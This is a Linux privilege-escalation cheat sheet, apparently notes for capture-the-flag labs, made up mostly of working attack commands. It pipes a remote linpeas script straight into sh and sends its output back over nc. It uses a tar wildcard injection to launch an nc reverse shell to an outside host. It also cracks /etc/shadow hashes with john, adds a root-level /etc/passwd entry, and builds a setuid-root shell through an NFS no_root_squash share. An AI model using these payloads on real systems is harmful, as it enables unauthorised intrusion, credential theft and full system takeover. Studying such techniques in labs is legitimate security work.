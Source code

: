 # Linux

## Methodology

- Scripts
    - LinEnum - [Link](https://github.com/rebootuser/LinEnum)
    - LinpPeas - [Link](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)

```console
# Local network
sudo python -m SimpleHTTPServer 80 #Host
curl 10.10.10.10/linpeas.sh | sh #Victim

# Without curl
sudo nc -q 5 -lvnp 80 < linpeas.sh #Host
cat < /dev/tcp/10.10.10.10/80 | sh #Victim

# Excute from memory and send output back to the host
nc -lvnp 9002 | tee linpeas.out #Host
curl 10.10.14.20:8000/linpeas.sh | sh | nc 10.10.14.20 9002 #Victim
```

- sudo -l

Take a look at the variables like **LD_PRELOAD**
Take a look which commands you can run as sudo

```console
$ sudo -l
Matching Defaults entries for www-data on THM-Chal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on THM-Chal:
    (ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl   
```



## Unshadow Passwd & Shadow

You need to download 2 files. /etc/passwd & /etc/shadow

```console
$ unshadow <passwd> <shadow> > hashes.txt
```

Then crack it with john

```console
$ john --wordlist=/usr/share/wordlists/rockyou.txt --format=sha512crypt new.txt 
Using default input encoding: UTF-8
Loaded 3 password hashes with 3 different salts (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Press 'q' or Ctrl-C to abort, almost any other key for status
Password1        (karen)
Password1        (user2)
test123          (gerryconway)
3g 0:00:00:13 DONE (2022-02-19 19:18) 0.2155g/s 1268p/s 1783c/s 1783C/s 111292..ellie123
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

## Cron

read cron jobs with `/etc/crontab`

For example, tar, 7z, rsync, etc., can be exploited using their wildcard feature

Be sure the file has `chmod +x`

### tar

```console
$ cat backup.sh
#!/bin/bash
cd /var/www/html
tar cf /home/milesdyson/backups/backup.tgz *
```

Exploit:
```console
$ echo "mkfifo /tmp/ahikccu; nc 10.14.20.70 4444 0</tmp/ahikccu | /bin/sh >/tmp/ahikccu 2>&1; rm /tmp/ahikccu" > shell.sh
$ chmod 777 shell.sh
$ echo "" > "--checkpoint-action=exec=sh shell.sh"
$ echo "" > --checkpoint=1
```

## Environment var

Show PATH var
```console
echo $PATH
```

Add direcotry to PATH var
```console
export=/tmp:$PATH
```

Find writeble folders
```console
$ find / -writable 2>/dev/null |cut -d "/" -f 2 | sort -u
```

## SUID

Compare executables with [GTFOBins](https://gtfobins.github.io/)

Find SUID files:

```console
$ find / -perm -u=s -type f 2>/dev/null
```

## Writeble files

**/etc/passwd**

Format: `test:x:0:0:root:/root:/bin/bash`

1. Username: It is used when user logs in. It should be between 1 and 32 characters in length.
2. Password: An x character indicates that encrypted password is stored in /etc/shadow file. Please note that you need to use the passwd command to compute the hash of a password typed at the CLI or to store/update the hash of the password in /etc/shadow file, in this case, the password hash is stored as an "x".

3. User ID (UID): Each user must be assigned a user ID (UID). UID 0 (zero) is reserved for root and UIDs 1-99 are reserved for other predefined accounts. Further UID 100-999 are reserved by system for administrative and system accounts/groups.
4. Group ID (GID): The primary group ID (stored in /etc/group file)
5. User ID Info: The comment field. It allow you to add extra information about the users such as user’s full name, phone number etc. This field use by finger command.
6. Home directory: The absolute path to the directory the user will be in when they log in. If this directory does not exists then users directory becomes /
7. Command/shell: The absolute path of a command or shell (/bin/bash). Typically, this is a shell. Please note that it does not have to be a shell.

```console
New entry
$ new:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash
```

## Capabilities

Find capabilities:

```console
$ getcap -r / 2>/dev/null
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/ping = cap_net_raw+ep
/home/karen/vim = cap_setuid+ep
/home/ubuntu/view = cap_setuid+ep
```

Look at [GTFOBins](https://gtfobins.github.io/) for leverage

## NFS

Check /etc/exports for "no_root_squash":
```console
# /etc/exports: the access control list for filesystems which may be exported
#               to NFS clients.  See exports(5).
#
# Example for NFSv2 and NFSv3:
# /srv/homes       hostname1(rw,sync,no_subtree_check) hostname2(ro,sync,no_subtree_check)
#
# Example for NFSv4:
# /srv/nfs4        gss/krb5i(rw,sync,fsid=0,crossmnt,no_subtree_check)
# /srv/nfs4/homes  gss/krb5i(rw,sync,no_subtree_check)
#
/home/backup *(rw,sync,insecure,no_root_squash,no_subtree_check)
/tmp *(rw,sync,insecure,no_root_squash,no_subtree_check)
/home/ubuntu/sharedfolder *(rw,sync,insecure,no_root_squash,no_subtree_check)
```

Look for mountable shares:
```console
$ showmount -e 10.10.193.66
Export list for 10.10.193.66:
/home/ubuntu/sharedfolder *
/tmp                      *
/home/backup              *
```

Mount one shared dir with "no_root_squash":
```console
$ mkdir /tmp/shared
$ sudo mount -o rw 10.10.193.66:/home/backup /tmp/shared/
```

Method 1: 
Create file inside shared:
```c
int main(){
        setgid(0);
        setuid(0);
        system("/bin/bash");
        return 0;
}
```
Compile the code:
```console
$ gcc root.c -o nfs -w

#ls -la
total 28
drw-r--r-- 2 root root  4096 20. Feb 12:26 .
drwxrwxrwt 1 root root   822 20. Feb 12:26 ..
-rwxr-xr-x 1 root root 16712 20. Feb 12:26 nfs
-rw-r--r-- 1 root root    71 20. Feb 12:26 root.c

$ chmod +s root
$ ls -la
total 28
drwxr-xr-x 2 root root  4096 20. Feb 12:35 .
drwxrwxrwt 1 root root   834 20. Feb 12:35 ..
-rwsr-sr-x 1 root root 16712 20. Feb 12:35 root
-rw-r--r-- 1 root root    99 20. Feb 12:33 root.c
```

Method 2:
```console
$ cp /bin/bash .
$ chmod +s bash

Run on Victim with
$ ./bash -p
```